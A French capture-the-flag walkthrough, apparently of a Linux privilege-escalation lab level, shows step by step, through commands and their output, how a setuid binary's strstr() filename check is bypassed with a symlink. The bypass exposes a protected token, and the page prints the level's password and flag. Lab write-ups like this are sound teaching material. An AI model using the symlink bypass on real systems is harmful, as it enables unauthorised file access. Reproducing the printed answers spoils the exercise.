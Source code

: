 Je streamline ma procédure d'identification : 

```
$ id && pwd && ls -la
uid=2008(level08) gid=2008(level08) groups=2008(level08),100(users)
/home/user/level08
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

J'observe deux spécificités à ce niveau : 

`level08`, dont le `setuid` est `flag08`, et `token` avec comme propriétaire `flag08` également.

A l'accoutumé, je lis et tente d'exécuter les fichiers qui me sont proposés :

```
$ cat token
cat: token: Permission denied

$ ./level08
./level08 [file to read]
```

Je tente de passer token comme 'file to read' :

```
$ ./level08 token
You may not access 'token'
```

Je tente avec un fichier que je créé moi-même :

```
$ touch test
touch: cannot touch `test': Permission denied
```

Je ne peux pas. Je tente donc avec un symlink, pour voir si j'ai les droits :

```
$ pwd
/home/user/level08
$ ln -s /home/user/level08/token /tmp/token
$ ls -l /tmp/token
lrwxrwxrwx 1 level08 level08 24 Apr  2 00:04 /tmp/token -> /home/user/level08/token
```

Le symlink m'appartient, donc je tente d'exécuter le binaire avec le symlink :

```
$ ./level08 /tmp/token
You may not access '/tmp/token'
```

Sans succès. Je tente d'obtenir des informations avec `strings` :

```
$ strings level08
...
%s [file to read]
token
You may not access '%s'
...
```

Je vois la présence de "token" dans le code, pour avoir plus d'information, je me penche sur `ltrace` :

```
$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff7f4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)                                = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

J'ai oublié de tester avec un argument, donc je n'observe qu'un `printf` d'erreur. Je teste avec le fichier `token` :

```
ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                  = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                              = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Je note l'utilisation de `strstr()` qui semble tenter de matcher `token` avec ce que j'imagine être le nom de mon fichier, je tente avec un symlink d'un autre nom pour m'assurer que c'est le cas :

```
$ ln -s /home/user/level08/token /tmp/flag
$ ltrace ./level08 /tmp/flag
__libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/flag", "token")                                              = NULL
open("/tmp/flag", 0, 014435162522)                                        = -1
err(1, 0x80487b2, 0xbffff90c, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open /tmp/flag: Permission denied
 <unfinished ...>
+++ exited (status 1) +++
```

Et j'observe que `strstr()` semble bien tenter de comparer mon input a la string `"token"`. Je tente de lancer le programme, donc, avec mon symlink du nom de `flag` : 

```
$ ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
```

Je le tente comme mot de passe pour le `level09` :

```
$ su level09
Password: quif5eloekouj29ke0vouxean
su: Authentication failure
```

Mais sans succès, j'essaye donc comme le mot de passe pour le `flag08` :

```
$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !

$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
